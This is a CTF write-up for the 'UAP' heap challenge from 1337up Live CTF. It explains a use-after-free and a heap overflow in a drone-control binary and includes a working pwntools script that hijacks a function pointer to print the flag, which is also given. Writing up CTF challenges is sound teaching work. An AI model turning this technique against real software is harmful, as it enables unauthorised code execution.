 You can download challenge in [here](https://github.com/q11N9/CTF_Writeups/blob/main/CTFpwn/1337up-live-ctf/pwn/UAP/uap.zip). 

The program prints out a menu to control the drone: 

![image](https://hackmd.io/_uploads/H1JDdXBzyg.png)

- **deploy_drone()**:

![image](https://hackmd.io/_uploads/B1qd_XHzyg.png)

The function will malloc a chunk of size 0x30 (including metadata), with ready status and **start_route** and **end_route**

- **retire_drone()**:

![image](https://hackmd.io/_uploads/rkE5OQrzye.png)

When the function will free the memory of a drone, use the **end_route()** function to free:

![image](https://hackmd.io/_uploads/Sy9ZtmHM1x.png)

We have a UAF bug here.


- **start_drone_route()**:

![image](https://hackmd.io/_uploads/rk4hdQSzkg.png)

The function just prints out the current route of the drone using the **start_route()** function:

![image](https://hackmd.io/_uploads/ByYkKmrfJe.png)

- Hàm **enter_drone_route()**:

![image](https://hackmd.io/_uploads/By_pdXBMJe.png)

The function will malloc with size 0x30 and let us enter data. But here it lets us enter 89 bytes, when the chunk size is only 48 bytes. So we have a buffer overflow bug here.

- **print_drone_manual()** gives us flag:

![image](https://hackmd.io/_uploads/H1KLF7SGyl.png)

When debugging in gdb, we will see the structure of a drone after free will be as follows:

![image](https://hackmd.io/_uploads/rk7fqFBGJg.png)
![image](https://hackmd.io/_uploads/HkiG5YSGkg.png)
![image](https://hackmd.io/_uploads/SJtVcFSfyx.png)

In turn, it will be id -> status->start_route -> end_route.
Let's try to insert 89 characters into a drone and let it start the route:

![image](https://hackmd.io/_uploads/r1uPN9Bzyg.png)

![image](https://hackmd.io/_uploads/Sk_LE5SGyl.png)

There is a call to rax, but our rax is now like this:

![image](https://hackmd.io/_uploads/Bkf_N9HzJg.png)

If we calculate according to the offset of the payload, the called address will have a padding of 16. So we will have the following script:

```python!
#!/usr/bin/env python3

from pwn import *

exe = ELF("./drone_patched")
libc = ELF("./libc-2.23.so")
ld = ELF("./ld-2.23.so")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("uap.ctf.intigriti.io", 1340)

    return r


def main():
    r = conn()
    input()
    # good luck pwning :)
    # Create drone
    r.sendline(b'1')
    pause()
    # Retire Drone
    r.sendline(b'2')
    r.sendline(b'1')
    r.recvline()
    pause()
    # Edit data in freed drone
    r.sendline(b'4')
    r.sendline(b'A'* 16 + p64(0x400836))
    pause()
    # Start its route to trigger
    r.sendline(b'3')
    r.sendline(b'1')
    pause()
    r.interactive()


if __name__ == "__main__":
    main()

```
Run on local: 

![image](https://hackmd.io/_uploads/Hk6CVcBGyx.png)

Run on server: 

![image](https://hackmd.io/_uploads/S1GgScrfkl.png)

Flag: ```INTIGRITI{un1d3n71f13d_fly1n6_vuln3r4b1l17y}```
